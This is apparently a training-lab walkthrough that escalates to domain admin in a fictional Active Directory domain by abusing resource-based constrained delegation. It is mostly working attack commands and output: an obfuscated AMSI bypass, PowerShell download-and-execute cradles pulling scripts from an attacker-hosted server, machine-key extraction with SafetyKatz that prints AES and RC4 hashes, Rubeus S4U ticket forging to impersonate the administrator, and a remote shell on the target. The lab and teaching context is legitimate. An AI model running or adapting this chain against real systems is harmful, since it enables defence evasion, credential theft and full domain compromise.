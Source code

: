 # Learning Objective 17 (Domain Privilege Escalation | Resource-based Constrained Delegation)

## Tasks

1. **Escalate to DA privileges abusing the resource-based constrained delegation**

---

## Attack Path Steps

- **Find a Target Server where we have Write Permissions and Access to it**
- **Set RBCD on the Target Server for the Student Machine**
- **Extract Student Machine TGS Encryption Key Hash**
- **Forge an S4U TGS using the Student Machine TGS Encryption Key Hash for Privilege Escalation**
- **Leverage the Forged Ticket to Gain DA Access to the Target Server**

---

## Solution

1. **Escalate to DA privileges abusing the resource-based constrained delegation**

- **Find a Target Server where we have Write Permissions and Access to it**

Let's use PowerView from a PowerShell session started using Invisi-Shell to enumerate write permissions for a user that we have compromised.

![dcorp-std422 | student422](https://custom-icon-badges.demolab.com/badge/dcorp--std422-student422-64b5f6?logo=windows11&logoColor=white)

`C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat`:
```
[SNIP]
```

`. C:\AD\Tools\PowerView.ps1`

After trying from multiple users or using BloodHound we would know that the user `ciadmin` has write permissions on the computer object of `dcorp-mgmt`.

`Find-InterestingDomainACL | ?{$_.identityreferencename -match 'ciadmin'}`:
```
ObjectDN                : CN=DCORP-MGMT🖥️,OU=Servers,DC=dollarcorp,DC=moneycorp,DC=local
AceQualifier            : AccessAllowed
ActiveDirectoryRights   : ListChildren, ReadProperty, GenericWrite📌
ObjectAceType           : None
AceFlags                : None
AceType                 : AccessAllowed
InheritanceFlags        : None
SecurityIdentifier      : S-1-5-21-719815819-3726368948-3917688648-1121
IdentityReferenceName   : ciadmin👤
IdentityReferenceDomain : dollarcorp.moneycorp.local
IdentityReferenceDN     : CN=ci admin,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local
IdentityReferenceClass  : user
```

Recall that we compromised `ciadmin` from `dcorp-ci`. We can either use the reverse shell we have on `dcorp-ci` as `ciadmin` (see *Learning Objective 05*) or extract the credentials from `dcorp-ci`.

Let's use the reverse shell that we have and load PowerView there.

![dcorp-ci | ciadmin](https://custom-icon-badges.demolab.com/badge/dcorp--ci-ciadmin-64b5f6?logo=windows11&logoColor=white)

![HFS - sbloggingbypass.txt](./assets/screenshots/learning_objective_17_hfs_sbloggingbypass.png)

`iex (iwr http://172.16.100.22/sbloggingbypass.txt -UseBasicParsing)`

Use the below command to bypass AMSI.

```powershell
S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

![HFS - PowerView.ps1](./assets/screenshots/learning_objective_17_hfs_powerview.png)

`iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.22/PowerView.ps1'))`

- **Set RBCD on the Target Server for the Student Machine**

`Set-DomainRBCD -Identity dcorp-mgmt -DelegateFrom 'dcorp-std422$' -Verbose`

Check if RBCD is set correctly.

`Get-DomainRBCD`:
```
[SNIP]

SourceName                 : DCORP-MGMT$🖥️
SourceType                 : MACHINE_ACCOUNT
SourceSID                  : S-1-5-21-719815819-3726368948-3917688648-1108
SourceAccountControl       : WORKSTATION_TRUST_ACCOUNT
SourceDistinguishedName    : CN=DCORP-MGMT,OU=Servers,DC=dollarcorp,DC=moneycorp,DC=local
ServicePrincipalName       : {WSMAN/dcorp-mgmt, WSMAN/dcorp-mgmt.dollarcorp.moneycorp.local, TERMSRV/DCORP-MGMT,
                             TERMSRV/dcorp-mgmt.dollarcorp.moneycorp.local...}
DelegatedName              : DCORP-STD422$📌
DelegatedType              : MACHINE_ACCOUNT
DelegatedSID               : S-1-5-21-719815819-3726368948-3917688648-20687
DelegatedAccountControl    : WORKSTATION_TRUST_ACCOUNT
DelegatedDistinguishedName : CN=DCORP-STD422📌,OU=StudentMachines,DC=dollarcorp,DC=moneycorp,DC=local

[SNIP]
```

- **Extract Student Machine TGS Encryption Key Hash**

Get AES keys of your student VM (as we configured RBCD for it above).

![Run as administrator](./assets/screenshots/learning_objectives_run_as_administrator.png)

![dcorp-std422 | student422](https://custom-icon-badges.demolab.com/badge/dcorp--std422-student422-64b5f6?logo=windows11&logoColor=white)

`C:\AD\Tools\Loader.exe -Path C:\AD\Tools\SafetyKatz.exe -args "sekurlsa::evasive-keys" "exit"`:
```
[SNIP]

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : DCORP-STD422$🖥️
Domain            : dcorp
Logon Server      : (null)
Logon Time        : 1/16/2025 8:02:30 AM
SID               : S-1-5-18

         * Username : dcorp-std422$
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL
         * Password : (null)
         * Key List :
           aes256_hmac       52b7cacc70a07595ebea80159deca504f201eca606f7bc7c29ace09ed9ff36fe🔑
           rc4_hmac_nt       2e70361e28e3c071f40f183b001fc3b0
           rc4_hmac_old      2e70361e28e3c071f40f183b001fc3b0
           rc4_md4           2e70361e28e3c071f40f183b001fc3b0
           rc4_hmac_nt_exp   2e70361e28e3c071f40f183b001fc3b0
           rc4_hmac_old_exp  2e70361e28e3c071f40f183b001fc3b0

[SNIP]
```

- **Forge an S4U TGS using the Student Machine TGS Encryption Key Hash for Privilege Escalation**

`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args s4u /user:dcorp-std422$ /aes256:52b7cacc70a07595ebea80159deca504f201eca606f7bc7c29ace09ed9ff36fe /msdsspn:http/dcorp-mgmt /impersonateuser:administrator /ptt`:
```
[SNIP]

[*] Action: S4U📌

[*] Using aes256_cts_hmac_sha1 hash: 52b7cacc70a07595ebea80159deca504f201eca606f7bc7c29ace09ed9ff36fe
[*] Building AS-REQ (w/ preauth) for: 'dollarcorp.moneycorp.local\dcorp-std422$'
[*] Using domain controller: 172.16.2.1:88
[+] TGT request successful!📌
[*] base64(ticket.kirbi):

[SNIP]

[*] Action: S4U📌

[*] Building S4U2self request for: 'dcorp-std422$@DOLLARCORP.MONEYCORP.LOCAL'
[*] Using domain controller: dcorp-dc.dollarcorp.moneycorp.local (172.16.2.1)
[*] Sending S4U2self request to 172.16.2.1:88
[+] S4U2self success!
[*] Got a TGS for 'administrator'🎭 to 'dcorp-std422$🖥️@DOLLARCORP.MONEYCORP.LOCAL'🏛️
[*] base64(ticket.kirbi):

[SNIP]

[*] Impersonating user 'administrator'🎭 to target SPN 'http📌/dcorp-mgmt'🖥️
[*] Building S4U2proxy request for service: 'http/dcorp-mgmt'
[*] Using domain controller: dcorp-dc.dollarcorp.moneycorp.local (172.16.2.1)
[*] Sending S4U2proxy request to domain controller 172.16.2.1:88
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'http/dcorp-mgmt':

[SNIP]

[+] Ticket successfully imported!🎟️
```

`klist`:
```
Current LogonId is 0:0x38bfd7

Cached Tickets: (1)

#0>     Client: administrator🎭 @ DOLLARCORP.MONEYCORP.LOCAL🏛️
        Server: http📌/dcorp-mgmt🖥️ @ DOLLARCORP.MONEYCORP.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a10000 -> forwardable renewable pre_authent name_canonicalize
        Start Time: 2/17/2025 4:58:42 (local)
        End Time:   2/17/2025 14:58:41 (local)
        Renew Time: 2/24/2025 4:58:41 (local)
        Session Key Type: AES-128-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:
```

- **Leverage the Forged Ticket to Gain DA Access to the Target Server**

`winrs -r:dcorp-mgmt cmd`:
```
Microsoft Windows [Version 10.0.20348.2762]
(c) Microsoft Corporation. All rights reserved.

C:\Users\Administrator.dcorp>
```
🚀

![dcorp-mgmt | administrator](https://custom-icon-badges.demolab.com/badge/dcorp--mgmt-administrator-64b5f6?logo=windows11&logoColor=white)

`set username`:
```
USERNAME=Administrator👤
```

`set computername`:
```
COMPUTERNAME=DCORP-MGMT🖥️
```
🚩

---
---
